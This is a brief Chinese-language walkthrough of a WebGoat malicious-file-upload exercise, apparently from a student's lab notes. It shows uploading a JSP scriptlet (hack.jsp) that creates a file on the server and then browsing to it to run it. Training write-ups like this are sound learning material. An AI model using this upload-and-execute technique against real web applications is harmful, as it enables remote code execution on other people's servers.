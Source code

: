   * `View Image Info`，记录文件运行URL为`localhost:8087/WebGoat/Uploads/homepage.png`，因此之后需要将`homepage.png`该文恶意执行的`jsp`文件，以次执行恶意代码

* 新建`hack.jsp`

  ```jsp
  <HTML>
  
  <% java.io.File file= newjava.io.File("/.extract/webapps/WebGoat/mfe_target/webgoat.txt");file.createNewFile();%>
  
  </HTML>
  ```

* 上传

  <img src="./img/me2.png" height=190px>

* `copy Image Location`，新建一个`Tab`，输入复制的URL，此时恶意代码得到执行（指定目录下新建一个txt文件）

* 返回原界面，刷新，**solved**

  <img src="./img/me3.png" height=350px>
